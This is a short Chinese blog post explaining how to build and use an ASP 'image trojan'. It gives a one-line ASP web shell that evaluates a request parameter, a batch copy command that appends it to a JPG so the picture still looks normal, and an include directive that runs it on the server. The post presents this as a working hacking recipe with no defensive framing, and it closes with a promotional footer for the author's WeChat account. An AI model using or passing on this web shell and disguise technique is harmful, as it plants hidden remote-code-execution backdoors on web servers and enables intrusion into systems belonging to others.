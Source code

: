 ```yaml
---
layout: post
category: binghe-code-hack
title: asp图片木马的制作和使用
tagline: by CurleyG
tag: [hack,binghe-code-hack]
excerpt: asp图片木马的制作和使用
lock: need
---
```


# asp图片木马的制作和使用

先看代码：

仅需几步：图片和一句话木马合并，制作可以正常显示的图片木马。

1、找一张图片，名字改成1.jpg
2、<%eval request(“a”)%>存为1.asp（就是一句话木马）
3、copy 1.jpg /b + 1.asp /a asp.jpg 存为1.bat文件

注：以上三个文件放在同一目录里面

复制当前目录下的1.jpg图片和当前目录下的1.asp文件并以ASCII代码的方式合并为 asp.jpg图片，运行1.bat，就会出现一个图片asp.jpg，现在这个asp.jpg就是已经做好的木马了。

这个图片外表很正常，用缩略图也看不出任何破绽，但是却非常的危险，让人防不胜防。

利用方法：新建一个asp.asp 内容为：

```html
<!–#include file=”asp.jpg”–>
```

把asp.jpg 和 asp.asp 放在同一目录，然后访问： asp.asp 。


## 写在最后

> 如果你觉得冰河写的还不错，请微信搜索并关注「 **冰河技术** 」微信公众号，跟冰河学习高并发、分布式、微服务、大数据、互联网和云原生技术，「 **冰河技术** 」微信公众号更新了大量技术专题，每一篇技术文章干货满满！不少读者已经通过阅读「 **冰河技术** 」微信公众号文章，吊打面试官，成功跳槽到大厂；也有不少读者实现了技术上的飞跃，成为公司的技术骨干！如果你也想像他们一样提升自己的能力，实现技术能力的飞跃，进大厂，升职加薪，那就关注「 **冰河技术** 」微信公众号吧，每天更新超硬核技术干货，让你对如何提升技术能力不再迷茫！


![](https://img-blog.csdnimg.cn/20200906013715889.png)
